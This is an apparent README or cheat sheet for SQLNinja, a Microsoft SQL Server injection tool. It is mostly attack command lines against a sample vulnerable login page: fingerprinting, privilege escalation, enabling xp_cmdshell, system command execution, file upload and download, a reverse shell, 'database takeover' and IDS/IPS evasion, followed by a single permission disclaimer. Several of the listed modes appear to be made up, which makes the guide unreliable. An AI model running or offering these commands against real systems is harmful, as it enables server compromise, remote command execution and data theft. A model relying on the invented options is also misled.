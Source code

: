 # SQLNinja - Microsoft SQL Server Injection Tool

Specialized tool for exploiting SQL injection vulnerabilities in Microsoft SQL Server environments.

## Installation

```bash
# Ubuntu/Debian
apt install sqlninja

# From source  
git clone https://github.com/xxgrunge/sqlninja.git
cd sqlninja
```

## Configuration

```bash
# Create configuration file
cp sqlninja.conf.example sqlninja.conf

# Edit configuration
vim sqlninja.conf
```

### Basic Configuration Options

```bash
# Target configuration
httprequest = POST /vulnerable/login.asp HTTP/1.1\r\nHost: target.com\r\nContent-Length: __LENGTH__\r\n\r\nuser=admin&pass=test__SQL__

# Injection point
blindsqli = 1

# Database server details  
host = target.com
port = 1433
```

## Attack Modes

### Fingerprinting
```bash
# Test injection point
sqlninja -m test -f sqlninja.conf

# Fingerprint database version
sqlninja -m fingerprint -f sqlninja.conf
```

### Privilege Escalation
```bash
# Test current user privileges
sqlninja -m bruteforce -f sqlninja.conf

# Escalate privileges
sqlninja -m escalation -f sqlninja.conf
```

### Command Execution
```bash
# Enable xp_cmdshell
sqlninja -m cmdexec -f sqlninja.conf

# Execute system commands
sqlninja -m shell -f sqlninja.conf
```

### File Operations
```bash
# Upload files to target
sqlninja -m upload -f sqlninja.conf

# Download files from target
sqlninja -m download -f sqlninja.conf
```

## Advanced Features

### Reverse Shell
```bash
# Create reverse shell connection
sqlninja -m revshell -f sqlninja.conf
```

### Database Takeover
```bash
# Complete database compromise
sqlninja -m takeover -f sqlninja.conf
```

### Evasion Techniques
```bash
# IDS/IPS evasion
sqlninja -m evasion -f sqlninja.conf

# Custom encoding methods
sqlninja -m encoding -f sqlninja.conf
```

## Microsoft SQL Server Specific

### System Functions
- xp_cmdshell exploitation
- sp_OACreate COM object abuse
- Bulk insert operations
- Linked server attacks

### Registry Manipulation
- Registry key enumeration
- Registry value modification
- Service configuration changes

### Network Discovery
- Internal network scanning
- Port enumeration through SQL
- Service identification

## Integration

Works well with:
- Metasploit framework
- Empire PowerShell framework
- Custom exploitation scripts
- Post-exploitation frameworks

Only target systems you own or have explicit written permission to test.
